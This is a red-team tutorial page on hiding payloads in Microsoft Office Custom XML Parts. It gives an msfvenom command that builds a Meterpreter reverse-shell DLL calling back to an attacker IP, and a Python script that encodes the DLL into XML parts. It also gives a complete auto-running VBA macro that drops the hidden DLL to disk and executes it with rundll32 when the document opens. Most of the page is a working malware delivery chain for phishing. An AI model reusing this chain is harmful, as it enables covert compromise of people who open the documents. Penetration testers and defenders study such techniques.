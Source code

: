 # MS Office - Custom XML parts

## Theory

[**Custom XML Parts** ](https://learn.microsoft.com/en-us/visualstudio/vsto/custom-xml-parts-overview?view=vs-2022)are structured data containers embedded within Microsoft Office documents (like DOCX, XLSX, or PPTX). Unlike visible content (text, charts, etc.), these parts are stored separately from the main document body and are primarily used by developers to hold configuration data, metadata, or information consumed by Office add-ins.

Each custom part is represented as a separate `.xml` file inside the Office document archive (which is a ZIP file under the hood), and they are typically stored in the `/customXml/` directory. These XMLs can include arbitrary data—Office doesn’t validate their content unless explicitly linked with active components like macros or embedded scripts.

From a red team perspective, XML Custom Parts offer a stealthy location to hide payloads, shellcode, or indicators used later during exploitation. Since they don’t directly impact document rendering or functionality, they may escape attention during casual inspection or static analysis.

## Practice

### Manually

You can embed payloads such as **Shellcode**, **DLLs**, or **Commands** into Custom XML Parts and retrieve them during document execution using **VBA macros**. This approach allows payloads to live inside the document without being directly visible in the main content or macros, reducing detection.

In this example, we’ll demonstrate how to retreive a DLL or binary from Custom XML Parts, Write it to the disk and execute it from a VBA Macro.

<details>

<summary>1. Generate the DLL</summary>

There are multiple ways to generate a malicious DLL. In this example, we will simply use msfvenom.

```bash
# Simple Meterpreter Staged DLL
msfvenom LHOST=10.10.14.144 LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f dll > rev.dll
```

</details>

<details>

<summary>2. Prepare the environement</summary>

In order to work with XML Custom Parts in Word, we first need to enable the Developer tab in settings. Go to "File" --> "Options" --> "Customize Ribbon" --> and check "Developer"

<figure><img src="../../../../.gitbook/assets/image-20250402233751303.png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>3. Generate Custom XML Part from the DLL</summary>

Using the Python script below, we can generate Custom XML Part from our DLL.

{% code title="GenCustomXML.py" %}
```python
import random
import string
import base64
import argparse
import os

def generate_customxml(input_file):
    """
    Generate a custom XML part from the contents of an input file.
    
    Args:
        input_file (str): Path to the input file
        
    Returns:
        tuple: (xml_content, part_name)
    """
    # Read the input file
    try:
        with open(input_file, 'rb') as f:
            file_bytes = f.read()
    except Exception as e:
        print(f"Error reading input file: {e}")
        return None, None
    
    # Generate a random part name
    part_name = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
    
    # Base64 encode the file content
    encoded = base64.b64encode(file_bytes).decode()
    
    # Split the encoded content into chunks
    step = 512
    customxml = ''
    part_number = 1
    
    for i in range(0, len(encoded), step):
        customxml += '<{0}_{1}>{2}</{0}_{1}>\n'.format(part_name, part_number, encoded[i:i+step])
        part_number += 1

    # Wrap the chunks in a root element
    xml_content = '<{0}_0>\n{1}</{0}_0>'.format(part_name, customxml)
    
    return xml_content, part_name

def main():
    parser = argparse.ArgumentParser(description='Generate a custom XML part from a file')
    parser.add_argument('input_file', help='Path to the input file')
    parser.add_argument('-o', '--output', help='Output file path (default: input_file.xml)')
    
    args = parser.parse_args()
    
    if not os.path.exists(args.input_file):
        print(f"Error: Input file '{args.input_file}' does not exist")
        return
    
    xml_content, part_name = generate_customxml(args.input_file)
    
    if xml_content:
        output_file = args.output if args.output else f"{args.input_file}.xml"
        
        try:
            with open(output_file, 'w') as f:
                f.write(xml_content)
            print(f"XML content generated successfully with part name '{part_name}'")
            print(f"Output written to: {output_file}")
        except Exception as e:
            print(f"Error writing output file: {e}")

if __name__ == "__main__":
    main()
```
{% endcode %}

We can run it as follows.

```bash
python GenCustomXML.py rev.dll -o evil-sc.doc
```

</details>

<details>

<summary>4. Insert the XML Custom Part</summary>

To insert the XML Custom Part, go to "Developer" --> "XML Mapping Pane"

<figure><img src="../../../../.gitbook/assets/image-20250402233907239.png" alt=""><figcaption></figcaption></figure>

Click "Custom XML Part" --> "Add"

<figure><img src="../../../../.gitbook/assets/image-20250402233954559.png" alt=""><figcaption></figcaption></figure>

And finally select the previously generated Custom XML Part.

<figure><img src="../../../../.gitbook/assets/image-20250402234128100.png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>5. Write &#x26; insert the Macro</summary>

We should now write a VBA Macro that will retreive the inserted DLL to execute it. We will use RunDll32 to do so.

The Random part name should be edited according to the previously generated one.

```visual-basic
Option Explicit

Private Type STARTUPINFO
    cb As Long                  'DWORD  cb;
    lpReserved As String        'LPSTR  lpReserved;
    lpDesktop As String         'LPSTR  lpDesktop;
    lpTitle As String           'LPSTR  lpTitle;
    dwX As Long                 'DWORD  dwX;
    dwY As Long                 'DWORD  dwY;
    dwXSize As Long             'DWORD  dwXSize;
    dwYSize As Long             'DWORD  dwYSize;
    dwXCountChars As Long       'DWORD  dwXCountChars;
    dwYCountChars As Long       'DWORD  dwYCountChars;
    dwFillAttribute As Long     'DWORD  dwFillAttribute;
    dwFlags As Long             'DWORD  dwFlags;
    wShowWindow As Integer      'WORD   wShowWindow;
    cbReserved2 As Integer      'WORD   cbReserved2;
    lpReserved2 As LongPtr      'LPBYTE lpReserved2;
    hStdInput As LongPtr        'HANDLE hStdInput;
    hStdOutput As LongPtr       'HANDLE hStdOutput;
    hStdError As LongPtr        'HANDLE hStdError;
End Type

' https://msdn.microsoft.com/fr-fr/library/windows/desktop/ms684873(v=vs.85).aspx
Private Type PROCESS_INFORMATION
    hProcess As LongPtr     'HANDLE hProcess;
    hThread As LongPtr      'HANDLE hThread;
    dwProcessId As Long     'DWORD  dwProcessId;
    dwThreadId As Long      'DWORD  dwThreadId;
End Type

#If Win64 Then
    Private Declare PtrSafe Function Create Lib "KERNEL32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, ByVal lpProcessAttributes As LongPtr, ByVal lpThreadAttributes As LongPtr, ByVal bInheritHandles As Boolean, ByVal dwCreationFlags As Long, ByVal lpEnvironment As LongPtr, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function Create Lib "KERNEL32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, ByVal lpProcessAttributes As Long, ByVal lpThreadAttributes As Long, ByVal bInheritHandles As Boolean, ByVal dwCreationFlags As Long, ByVal lpEnvironment As Long, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If


Sub AutoOpen()
    Run
End Sub

Sub Document_Open()
    Run
End Sub

Sub Run()
    Dim root As String
    Dim path As String
    Dim exe As String
    Dim startInfo As STARTUPINFO
    Dim procInfo As PROCESS_INFORMATION
    Dim res As Long

    path = Environ("USERPROFILE") & "\Documents\evil.dll"   
    Drop(path)
    Dim exists As String
    Dim hReq As Object


    #If Win64 Then
        root = "C:\Windows\System32\"
    #Else
        root = "C:\Windows\SysWOW64\"
    #End If

    exe = root & "rundll32.exe " & Path & ",EntryPoint"
    res = Create(vbNullString, exe, &0, &0, False, &0, &0, vbNullString, startInfo, procInfo)
End Sub

Sub Drop(ByVal Path As String)
    Dim decoded, objFSO, objFile
    decoded = B64(GetCustomPart("hruyvwpg")) 'EDIT THIS LINE
    Set objFSO = CreateObject("Scripting.FileSystemObject")
    Set objFile = objFSO.CreateTextFile(Path, True)
    objFile.Write decoded
    objFile.Close
End Sub

Sub Send(ByVal hReq As Object, ByVal url As String)
    With hReq
        .Open "GET", url, False
        .Send
    End With
End Sub

Function GetCustomXMLPart(ByVal Name As String) As Object
    Dim part
    Dim parts
    
    On Error Resume Next
    Set parts = ActiveDocument.CustomXMLParts
    
    For Each part In parts
        If part.SelectSingleNode("/*").BaseName = Name Then
            Set GetCustomXMLPart = part
            Exit Function
        End If
    Next
        
    Set GetCustomXMLPart = Nothing
End Function

Function GetCustomXMLPartTextSingle(ByVal Name As String) As String
    Dim part
    Dim out, m, n
    
    Set part = GetCustomXMLPart(Name)
    If part Is Nothing Then
        GetCustomXMLPartTextSingle = ""
    Else
        out = part.DocumentElement.Text
        n = Len(out) - 2 * Len(Name) - 5
        m = Len(Name) + 3
        If Mid(out, 1, 1) = "<" And Mid(out, Len(out), 1) = ">" And Mid(out, m - 1, 1) = ">" Then
            out = Mid(out, m, n)
        End If
        GetCustomXMLPartTextSingle = out
    End If
End Function

Function GetCustomPart(ByVal Name As String) As String
    On Error GoTo ProcError
    Dim tmp, j
    Dim part
    j = 0
    
    Set part = GetCustomXMLPart(Name & "_" & j)
    While Not part Is Nothing
        tmp = tmp & GetCustomXMLPartTextSingle(Name & "_" & j)
        j = j + 1
        Set part = GetCustomXMLPart(Name & "_" & j)
    Wend
    
    If Len(tmp) = 0 Then
        tmp = GetCustomXMLPartTextSingle(Name)
    End If
    
    GetCustomPart = tmp
    
ProcError:
End Function

Function B64(ByVal data As String) As Byte()
    Dim objXML2 As Object
    Dim objNode As Object

    Set objXML2 = CreateObject("MSXML2.DOMDocument")
    Set objNode = objXML2.createElement("b64")
    objNode.DataType = "bin.base64"
    objNode.Text = data
    B64 = StrConv(objNode.nodeTypedValue, vbUnicode)
    Set objNode = Nothing
    Set objXML2 = Nothing
End Function
```

To insert the macro, you can hit ALT + F11 when your Word document is opened. More details can be found [on this page.](https://red.infiltr8.io/redteam/delivery/phishing/phishing-with-ms-office/vba)

</details>

Here is a proof-of-concept example using a Sliver C2 DLL.

<figure><img src="../../../../.gitbook/assets/CustomXMLPart2.gif" alt=""><figcaption></figcaption></figure>

### Tools - Automate The Process

{% tabs %}
{% tab title="Automated" %}
//TO DO
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://mgeeky.tech/payload-crumbs-in-custom-parts/" %}
